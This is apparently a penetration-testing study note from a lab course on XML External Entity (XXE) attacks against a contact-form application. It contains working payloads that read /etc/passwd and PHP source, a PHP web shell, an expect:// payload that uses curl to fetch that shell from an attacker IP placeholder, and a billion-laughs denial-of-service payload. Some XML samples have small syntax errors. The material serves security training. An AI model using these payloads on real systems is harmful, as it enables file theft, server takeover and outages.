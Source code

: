 ```yaml
---
title: b-Local File Disclosure
draft: false
tags:
  - xxe
---
```

Suppose we can define new entities and have them displayed on the web page. In that case, we should also be able to define external entities and make them reference a local file, which, when displayed, should show us the content of that file on the back-end server.

## Identify

> **e.g** Contact Form Web Application

If we fill the contact form and click on `Send Data`, then intercept the request with Burp, we can see that the request is being sent in XML.

Once we send the request without any modification, we have a message saying `Check your email email@xxe.htb for further instruction.`.

This means the `email` element is being displayed so this would be our possible injection point. For now, we know that whatever value we place in the `<email></email>` element gets displayed in the HTTP response.

Let's try defining a new entity and then use it as a variable in the email element.

To define a new XML entity, we will add the following line after the first line in the XML input:

```xml
<!DOCTYPE email [
  <!ENTITY company "Inlane Freight">
]>
```


> **Note:** In our example, the XML input in the HTTP request had no DTD being declared within the XML data itself, or being referenced externally, so we added a new DTD before defining our entity. If the `DOCTYPE` was already declared in the XML request, we would just add the `ENTITY` element to it.

Now that we have created a XML entity called `company`, let's inject `&compay` inside `email` element and we will see the value we defined (`Inlane Freight`) is getting displayed.

```xml
<?xml version="1.0" encoding="UTF-8">
	<!DOCTYPE email[
	<!ENTITY company "Inlane Freight">
	]>
	<root>
		<name>
		First
		</name>
		<tel>
		</tel>
		<email>
		&company
		</email>
		<message?
		test
		</message>
	</root>
```

`This confirms that we are dealing with a web application vulnerable to XXE`.

> **Note:** Some web applications may default to a JSON format in HTTP request, but may still accept other formats, including XML. So, even if a web app sends requests in a JSON format, we can try changing the `Content-Type` header to `application/xml`, and then convert the JSON data to XML with an [online tool](https://www.convertjson.com/json-to-xml.htm). If the web application does accept the request with XML data, then we may also test it against XXE vulnerabilities, which may reveal an unanticipated XXE vulnerability.

## Reading Sensitive Files

By adding `SYSTEM` keyword to the payload, we can read local files as such:

```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "file:///etc/passwd">
]>
```

## Reading Source Code

If we can read the source code, it is Whitebox Pentesting from that point.

Let's try the following entity:

```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "file:///index.php">
]>
```

However, above won't work out somehow. 

This is because the file we are referencing is not in proper XML format, so it fails to be referenced as an external XML entity.

PHP provides wrapper filters that allows base64 encoding which will output with no break in XML format. 

To do this, we can use `php://filter/` wrapper:

```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
```

Above will correctly return `index.php`.

However, above will only work with PHP web apps.

## RCE with XXE

If we can read local files, we can read files such as `ssh` keys, or attempt to utilize a hash stealing trick in Windows-based web apps by making a call to our server.

On PHP-based web application, we can execute commands through `PHP://expect` filter. But this requires `expect` module is installed and enabled.

`expect://whoami`

Most efficient method to turn XXE into RCE is by fetching a web shell from our server and writing to the web app, and then we can interact with it.

We can write a basic PHP web shell and start a Python web server:

```shell-session
jadu101@htb[/htb]$ echo '<?php system($_REQUEST["cmd"]);?>' > shell.php
jadu101@htb[/htb]$ sudo python3 -m http.server 80
```

Now, we can use the following XML code to execute a `curl` command that downloads our web shell into the remote server:

```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
<root>
<name></name>
<tel></tel>
<email>&company;</email>
<message></message>
</root>
```

> **Note:** We replaced all spaces in the above XML code with `$IFS`, to avoid breaking the XML syntax. Furthermore, many other characters like `|`, `>`, and `{` may break the code, so we should avoid using them.


> **Note:** The expect module is not enabled/installed by default on modern PHP servers, so this attack may not always work. This is why XXE is usually used to disclose sensitive local files and source code, which may reveal additional vulnerabilities or ways to gain code execution.


## Other XXE Attacks

DOS

```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY a0 "DOS" >
  <!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
  <!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
  <!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
  <!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
  <!ENTITY a5 "&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;">
  <!ENTITY a6 "&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;">
  <!ENTITY a7 "&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;">
  <!ENTITY a8 "&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;">
  <!ENTITY a9 "&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;">        
  <!ENTITY a10 "&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;">        
]>
<root>
<name></name>
<tel></tel>
<email>&a10;</email>
<message></message>
</root>
```
